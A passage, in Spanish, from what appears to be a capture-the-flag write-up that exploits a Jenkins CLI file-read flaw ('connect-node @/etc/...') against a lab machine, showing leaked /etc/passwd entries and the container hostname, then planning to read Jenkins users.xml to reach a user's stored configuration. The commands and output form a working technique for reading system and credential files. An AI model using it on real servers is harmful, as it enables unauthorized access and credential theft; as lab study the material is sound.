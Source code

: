 ~~~bash
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin: No such agent "uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin" exists.
bin:x:2:2:bin:/bin:/usr/sbin/nologin: No such agent "bin:x:2:2:bin:/bin:/usr/sbin/nologin" exists.
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin: No such agent "news:x:9:9:news:/var/spool/news:/usr/sbin/nologin" exists.
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin: No such agent "proxy:x:13:13:proxy:/bin:/usr/sbin/nologin" exists.
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin: No such agent "irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin" exists.
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin: No such agent "list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin" exists.
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash: No such agent "jenkins:x:1000:1000::/var/jenkins_home:/bin/bash" exists.
games:x:5:60:games:/usr/games:/usr/sbin/nologin: No such agent "games:x:5:60:games:/usr/games:/usr/sbin/nologin" exists.
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin: No such agent "man:x:6:12:man:/var/cache/man:/usr/sbin/nologin" exists.
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin: No such agent "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin" exists.
sys:x:3:3:sys:/dev:/usr/sbin/nologin: No such agent "sys:x:3:3:sys:/dev:/usr/sbin/nologin" exists.
sync:x:4:65534:sync:/bin:/bin/sync: No such agent "sync:x:4:65534:sync:/bin:/bin/sync" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
~~~

- El contenido de este archivo no tiene pinta de ser un servidor normal.
- Podemos comprobar si es un docker viendo el `hostname` de este:

~~~bash
❯ java -jar jenkins-cli.jar -s http://10.10.11.10:8080 connect-node @/etc/hostname
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

ERROR: No such agent "0f52c222a4cc" exists.
~~~

- Y bueno, si es un docker al parecer.
- A esta altura lo que se me ocurrió fue investigar si existen archivos de configuración en Jenkins donde se almacene información confidencial hardcodeada como pueden ser archivos de configuración.
- Para esto, bajé una imagen de docker que use Jenkins, pueden encontrar las instrucciones aquí:
	- https://github.com/jenkinsci/docker

- Solo bastará con seguir los pasos requeridos para la instalación.
- Me creé un usuario llamado `retr0` en el docker, y realicé una búsqueda recursiva desde la raíz para buscar directorios que contuvieran mi nombre de usuario:

~~~bash
jenkins@45bfc2f75d6c:/$ grep -r "retr0" -l
jenkins_home/users/retr0_12888431285804654481/config.xml
jenkins_home/users/users.xml
~~~

- Con esto nos podemos dar una idea de como se estructura la data de los usuarios.

- Descubrí que existe en un archivo se almacena el nombre de los directorios de usuarios, al cual es `/var/jenkins_home/users/users.xml`.
- Si hacemos una petición a este en el servidor, podremos ver el directorio del usuario `jennifer`:
